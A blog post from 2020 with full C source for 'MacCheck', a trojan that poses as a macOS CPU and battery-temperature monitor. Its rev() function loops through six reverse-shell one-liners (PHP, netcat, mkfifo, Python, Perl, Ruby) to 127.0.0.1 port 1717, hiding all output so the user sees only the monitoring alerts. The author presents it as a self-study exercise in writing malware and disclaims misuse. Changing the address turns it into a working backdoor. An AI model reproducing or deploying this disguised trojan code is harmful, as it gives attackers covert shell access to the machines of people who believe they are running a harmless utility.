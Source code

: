 ```yaml
---
title: "A reverse shell disguised as a hardware monitor [C]"
date: 2020-05-18
tags: [programming, c]
header:
  image: "/images/banner2.png"
  excerpt: "Programming, C"
---
```


This program was inspired by the saying I sometimes hear that "Macs don't get viruses". I wanted to find out what it's like to write malware, which factors you have to consider, what way of thinking is required. I think that doing so and temporarily roleplaying as an attacker puts you in a better position to defend against threats.

I also wanted to learn a programming language that isn't also a shell language. I did some research and ended up picking C. I had a lot of reasons for this, but what stood out to me were 2 things:

* the amount of malware and exploits written in C
* the amount of IoT (Internet of Things) written in C

To me, this was killing two giant birds with one stone. That stone ended up being a lot bigger and heavier than I anticipated, but still. My goal was to write a program that resembles a Trojan - in this case, one that monitors a Mac's battery temperature and CPU usage while attempting to grant backdoor access to another machine.

Note: I won't (and you shouldn't) use this program as an actual Trojan or as malware in general (such as using this program to gain access to a machine whos owner hasn't explicitly given permission to do so). I've written this program (and this post) to learn and to talk about what that learning has been like for me, *nothing else*. You shouldn't let anyone run this program if that person doesn't fully understand what it does and hasn't given explicit permission for access through a reverse shell.

## The main() function

I start off by making sure the program is executed the right way: being run in the background. If it's not, it prints usage instructions. I check this in the same way I did in my [network monitor written in Bash](https://holstrater.github.io/), which may also be suboptimal in C. Since checking if the current program is being run in the background seems like a valuable thing to master in general (and in the future), I'll look for improvements later on. I then print a brief introduction to the user, noting that the Terminal application should not be completely closed to keep the program from exiting, although hiding it is fine.

The program then calls three different functions and waits for 35 seconds. After that, the three functions are called again, waiting for 35 seconds again, infinitely repeating this in a loop.

## The check_cpu() function

The first function that is called and executed, monitors and reports about current CPU usage of the user's machine. It does this by issuing a command that checks kernel stats, in this case `vm.loadavg`. It does some filtering on these stats, making sure to only store the relevant part in the `.txt` file.

After that, some variables are initialized, making sure that the contents of the `.txt` file can be stored in an actual variable. After converting the variable content to the `int` type, the content is evaluated in a few `if` statements. This way, if the current CPU usage (stored as the variable content) matches certain criteria, a slick-looking temporary alert pops up informing the user of what's going on. Since high CPU usage is generally fine (especially on modern CPUs), I decided to keep the criteria rather high. After all, setting them too low could ruin the user experience when the alerts are interpreted as false positives. This could lead to the user shutting down the program entirely. Since there's a considerable `sleep` being executed in the main loop, I didn't want the `.txt` to just sit there and do nothing for such a long time so I delete it each time `check_cpu()` ends.

## The check_bat() function

The second function does the same thing as the previous function, but instead of CPU usage it monitors and reports about current battery temperature of the user's machine. Instead of `sysctl` it uses `ioreg` which is able to query the needed information. I did some research about the way the specific type of battery in Macs reacts to heat, which I then based my criteria in the `if` statements on. Note: the numbers in these `if` statements are Celsius multiplied by 100 because that's how they're measured by `ioreg`, but this multiplication is obviously accounted for in the actual messages the user gets.

## The rev() function

The third function is the part where the program attempts to establish a connection with a remote computer, giving that computer shell access. It does this by attempting method A first and if method A fails, it waits for 5 seconds and attempts method B. It turned out that a lower `sleep` duration disrupts the methods that follow each failed attempt, so I ended up with 5 seconds each. The methods consist of generally well-known 'oneliners', each relying on a different language or command. These open up a network socket connecting to the IP that was provided on the port that was provided.

To simulate how a trojan *would* work, I made some minor changes to these commands so that, if they fail (or even succeed) to set up a reverse shell, it doesn't show to the user. From a users point of view, apart from CPU usage and battery temperature being monitored nothing is happening.

## Final words

I learned a lot about the C language creating this program, but not completely the way I intended. C, for me, isn't the kind of language that you can pick up easily just by *doing*. Since it's such a low-level language with in my opinion not very intuitive syntax, it benefits a lot from creating a steady foundation with several books. Otherwise, you might end up with crucial gaps in your knowledge that will pretty much follow you forever. The proof of this in this particular program is the combination of C and shell commands rather than almost being pure C.

Nevertheless, I did end up with a program that I think is very interesting, particularly in its combination of good (monitoring hardware stats) and bad (setting up backdoor access). Also: I've been working on my socket programming and multithreading skills/knowledge while writing `maccheck.c`, so keep an eye out for a C program related to that in the future. In the meantime though, I have some reading to do. Still, if you have any suggestions, questions or comments in general, please let me know. They're more than welcome.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void check_cpu(void);
void check_bat(void);
void rev(void);

int main(int argc, char *argv[]) {

	if (argc != 2 || strcmp(argv[1], "&")) {
		printf("\nMacCheck was not executed properly. \nPlease execute by entering the following: ./maccheck \"&\"&\n\n");
		exit(0);
	}

	printf("\nWelcome to MacCheck, a lightweight tool for MacOS that monitors CPU usage and battery temperature.\n\n");
	printf("Once temperature and usage exceeds a certain level, a temporary and non-intrusive notification will appear to inform you.\n\n");
  printf("Monitoring will remain active in the background but relies on the Terminal app. Minimizing it or executing other commands is OK, but please do not close the Terminal app.\n\n");

	while (1) {
		check_cpu();
		check_bat();
		rev();
		sleep(35);
	}

	return 0;
}

void check_cpu(void) {

	system("sysctl -n vm.loadavg | awk -F' ' '{print $2 > \"maccheck_tmp1.txt\"}'");

	char cpu_s[50];
	int cpu_i;
	FILE *fp;
	fp = fopen("maccheck_tmp1.txt", "r+");

	fgets(cpu_s, sizeof(cpu_s), fp);

	cpu_i = atoi(cpu_s);

	if (cpu_i >= 90 && cpu_i <= 95) {
	system("osascript -e 'display notification \"CPU usage is between 90% and 95%!\" with title \"MacCheck\"'");
	}
	else if (cpu_i >= 95 && cpu_i <= 100) {
	system("osascript -e 'display notification \"CPU usage is between 95% and 100%!\" with title \"MacCheck\"'");
	}
	else if (cpu_i > 100) {
	system("osascript -e 'display notification \"WARNING: CPU usage is over 100%!\" with title \"MacCheck\"'");
	}

	fclose(fp);
	system("rm maccheck_tmp1.txt");

}

void check_bat(void) {

	system("ioreg -brc AppleSmartBattery | grep Temperature | awk -F' ' '{print $3 > \"maccheck_tmp2.txt\"}'");

	char bat_s[50];
	int bat_i;
	FILE *fp2;
	fp2 = fopen("maccheck_tmp2.txt", "r+");

	fgets(bat_s, sizeof(bat_s), fp2);

	bat_i = atoi(bat_s);

	if (bat_i >= 4000 && bat_i <= 4500) {
	system("osascript -e 'display notification \"Battery temperature is between 40°C and 45°C!\" with title \"MacCheck\"'");
	}
	else if (bat_i >= 4500 && bat_i <= 5000) {
	system("osascript -e 'display notification \"Battery temperature is between 45°C and 50°C!\" with title \"MacCheck\"'");
	}
	else if (bat_i > 5000) {
	system("osascript -e 'display notification \"WARNING: Battery temperature is over 50°C!\" with title \"MacCheck\"'");
	}

	fclose(fp2);
	system("rm maccheck_tmp2.txt");

}

void rev(void) {

	if (system("php -r '$sock=fsockopen(\"127.0.0.1\",1717);exec(\"/bin/sh -i <&3 >&3 2>&3\");' > /dev/null 2>&1 &") != 1) {
		sleep(5);
		if (system("nc -e /bin/sh 127.0.0.1 1717 > /dev/null 2>&1 &") != 1) {
			sleep(5);
      	if (system("rm /tmp/f > /dev/null 2>&1;mkfifo /tmp/f > /dev/null 2>&1;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1717 >/tmp/f > /dev/null 2>&1 &") != 1) {
        	sleep(5);
	        	if (system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",1717));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\' > /dev/null 2>&1 &") != 1) {
	          	sleep(5);
	            	if (system("perl -e 'use Socket;$i=\"127.0.0.1\";$p=1717;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};' > /dev/null 2>&1 &") != 1) {
	              	sleep(5);
									system("ruby -rsocket -e'f=TCPSocket.open(\"127.0.0.1\",1717).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)' > /dev/null 2>&1 &");
								}
						}
				}
		}
	}
}
```!!!
